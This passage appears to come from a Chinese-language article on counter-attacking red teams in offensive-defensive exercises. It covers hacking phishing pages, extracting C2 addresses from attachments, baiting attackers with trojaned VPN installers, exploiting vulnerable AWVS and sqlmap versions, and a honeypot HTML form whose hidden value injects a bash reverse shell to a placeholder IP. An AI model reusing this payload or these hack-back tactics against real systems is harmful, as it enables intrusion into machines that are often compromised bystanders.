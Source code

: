 ### 3.1 反制钓鱼页面

直接对钓鱼页面进行 web 渗透攻击，尝试直接控制。攻防演戏开始前期，红队成员肯定会用许多肉鸡去对目标资产进行批量漏洞扫描，或者自己使用肉鸡生成钓鱼页面等，这些肉鸡基本都含有漏洞，这时候去反击成功率会比较高。

### 3.2 反制钓鱼邮件

1.  对附件进行逆向分析，得到 C2 地址，然后对目标 ip 进行渗透攻击。  
    通过邮箱求手机号码可见：已知邮箱，求手机号码?  
    有一个网站可以查询利用目标邮箱注册过的网站：查找邮箱注册过的网站
    
2.  发现钓鱼邮件后，将钓鱼邮件放在我们提前配置好的蜜罐中执行，在蜜罐中放上恶意的加入木马的 vpn 安装包与密码本，等待攻击者下载并连接。
    

### 3.3 反制攻击工具

倘若对方使用带有漏洞版本的攻击工具例如蚁剑、AWVS 等，这时候可以使用 RCE 攻击对其进行反控，高版本蚁剑上此漏洞已经被修复。  
已知有漏洞的工具版本：

1.  蚁剑 <=2.0.7  
    暂无直接可用 exp。
    
2.  awvs 10  
    直接利用 exp，等待对方扫描自己，即刻上线。exp 下载地址：https://github.com/dzonerzy/acunetix_0day  
    也可以利用 CSRF 漏洞去反击。
    
    > 参考文章：  
    > 论如何反击用 AWVS 的黑客  
    > 如何优雅的反击扫描你网站的黑客
    
3.  cs 3.5  
    只有 3.5 及以下版本可能被利用，且无直接可用 exp，参考文章 Cobalt Strike team 服务被爆 RCE 漏洞，尽快升级最新版!。
    
4.  sqlmap  
    构造特殊的 get 或者 post 注入点来等待攻击者使用 sqlmap 扫描，例如下图，将 get 请求中的一个参数的值设置为 `ls`l, 倘若直接改成反弹 shell 的代码即可反控对方机器。
    
5.  ![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwKyGM4zBOwh6RUdw9xLq3a9VZRhK38hs0ic3yzftYdPvXQtwYjv6ZHsAmquyyExIFXC9pqxHSOPPA/640?wx_fmt=png)
    
6.  post 方式的利用：  
    页面代码:
    
    ```
    <html>
    <head>
    <title> A sqlmap honeypot demo</title>
    </head>
    <body>
    <input>search the user</input>
    <form id="myForm" action="username.html" method="post" enctype="text/plain">
    <input type='hidden' name='name'value='Robin&id=4567&command=shell`bash -i >&/dev/tcp/192.168.xxx.xxx/2333 0>&1`&port=1234'/>
    <input type="button"οnclick="myForm.submit()" value="Submit">
    </form>
    </body>
    </html>
    ```
    
